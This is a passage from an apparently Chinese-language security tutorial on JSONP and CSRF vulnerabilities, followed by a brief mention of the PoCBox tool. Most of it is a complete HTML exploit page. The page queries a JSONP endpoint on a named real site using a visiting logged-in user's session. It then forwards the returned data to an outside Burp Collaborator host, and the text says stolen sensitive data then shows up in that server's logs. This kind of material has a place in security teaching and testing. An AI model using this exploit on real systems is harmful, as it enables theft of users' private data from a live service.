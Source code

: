    >    <head>
   >    <meta charset="UTF-8">
   >    <title>JSONP EXP跨域测试</title>
   >    </head>
   >    <body onload="load()">
   >    <script src="http://www.w3school.com.cn/jquery/jquery-1.11.1.min.js">
   >    </script>
   >    <script>
   >    function load()
   >    {
   >    $.ajax({
   >    // url保存存在漏洞的地址
   >    url: "http://chat1.jd.com/api/checkChat?venderList=65126,62710&callback=zzzzccc", 
   >    type: "GET", //指定GET请求方法
   >    dataType: "jsonp", //指定服务器返回的数据类型
   >    jsonp: "callback", //指定回调函数参数名称
   >    jsonpCallback: "zzzzccc",//随意修改，与url中的值相一致即可
   >    success: function (data) {
   >    $.ajax({
   >     type: 'get',
   >     url: 'http://qpjyc7fi3ls6vq7mtwug010szj59ty.burpcollaborator.net/', // 接收数据的地址
   >     data: JSON.stringify(data)
   >    });
   >    }
   >    })
   >    }
   >    </script>
   >    </body>
   >    </html>
   >    ~~~
   >
   > 3. 用户在登陆状态点击恶意网站执行漏洞利用代码之后，在url中对应服务器的日志文件中可以看到中招用户的敏感信息

4. 工具[PoCBox](https://github.com/0verSp4ce/PoCBox)的使用

   > 1. CORS
   >
   >    ![image-20210904143244669](../images/13_CSRF漏洞/image-20210904143244669.png)
   >
   >    ---
   >